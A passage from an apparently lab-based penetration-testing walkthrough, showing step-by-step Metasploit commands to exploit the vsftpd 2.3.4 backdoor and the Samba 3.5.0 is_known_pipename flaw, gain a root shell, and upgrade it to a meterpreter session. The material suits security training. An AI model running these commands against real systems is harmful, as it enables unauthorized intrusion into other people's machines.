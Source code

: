 Execute the `meterpreter.exe` on the target.

### Linux : FTP

* It is frequently used as a means of transferring files to and from the directory of a web server.
* vsftpd is an FTP server for Unix-like systems including Linux systems and is the default FTP server for Ubuntu, CentOS and Fedora.
* **vsftpd V2.3.4** is vulnerable to a command execution vulnerability that is facilitated by a malicious backdoor that was added to the vsftpd download archive through a supply chain attack.

```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a ftp
msf6> setg rhosts 192.195.12.3
msf6> db_nmap -sS -sV -O 192.195.12.3

msf6> use exploit/unix/ftp/vsftpd_234_backdoor
msf6> run

/bin/bash -i
root@victim-1> id

# Ctrl+Z to background the session
```

Upgrade shell to meterpreter.

```bash
msf6> use multi/manage/shell_to_meterpreter
msf6> set lhost eth1
msf6> set session 1
msf6> run
```

Go to the new session.

```bash
msf6> sessions 2
meterpreter> sysinfo
```

### Linux : Samba

* SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a LAN.
* SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139.
* Samba is the Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.
* **Samba V3.5.0** is vulnerable to a RCE vulnerability, allowing a malicious client to upload a shared library to a writable share, and then cause the server to load and execute it.

```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a samba
msf6> db_nmap -sS -sV -O 192.182.79.3

msf6> search type:exploit name:samba
msf6> use exploit/linux/samba/is_known_pipename
msf6> check
msf6> run

# Ctrl+Z
```

